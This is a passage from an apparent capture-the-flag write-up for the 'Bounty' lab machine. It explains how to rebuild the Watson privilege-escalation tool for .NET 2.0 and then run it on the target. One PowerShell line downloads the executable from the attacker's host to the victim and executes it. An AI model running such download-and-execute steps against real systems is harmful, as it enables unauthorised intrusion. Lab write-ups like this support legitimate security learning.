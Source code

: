 So, I’ll go to “Build” –> “Build Solution”, and see the output like this:

![1540586312675](https://0xdfimages.gitlab.io/img/1540586312675.png)

And, if I go to that folder and run it, it works:

![1540586348018](https://0xdfimages.gitlab.io/img/1540586348018.png)

I can take that binary over to Bounty and run it, but nothing will return.
Why? Rasta Mouse explained that in this post:
<https://rastamouse.me/2018/09/a-lesson-in-.net-framework-versions/>

The TL;DR is that you have to build the exe to match the version of .NET
installed on target.

From Bounty:

    
    
    PS C:\windows\microsoft.net\framework\v2.0.50727> \windows\microsoft.net\framework\v2.0.50727\msbuild -version
    Microsoft (R) Build Engine Version 2.0.50727.4927
    [Microsoft .NET Framework, Version 2.0.50727.4927]
    Copyright (C) Microsoft Corporation 2005. All rights reserved.
    
    2.0.50727.4927
    

So back in Visual Studio, “Project” –> “Watson Properties…” will launch a
window where I can set the “Target Framework”:

![1540586719230](https://0xdfimages.gitlab.io/img/1540586719230.png)

When I had originally written this post, this is where things failed. Watson
wouldn’t compile for .NET Framework 2.0:

![1540586764022](https://0xdfimages.gitlab.io/img/1540586764022.png)

But, thanks to super quick work from Rasta Mouse and Mark-S, they updated it
this morning, and it works now.

So build again with .NET Framework 2.0, copy it over to Bounty, and run it:

    
    
    PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/Watson.exe', '\users\merlin\appdata\local\temp\watson.exe')
    PS C:\users\merlin\appdata\local\temp> .\watson.exe
      __    __      _
     / / /\ \ \__ _| |_ ___  ___  _ __
     \ \/  \/ / _` | __/ __|/ _ \| '_ \
      \  /\  / (_| | |_\__ \ (_) | | | |
       \/  \/ \__,_|\__|___/\___/|_| |_|
    
                               v0.1
    
                      Sherlock sucks...
                       @_RastaMouse
    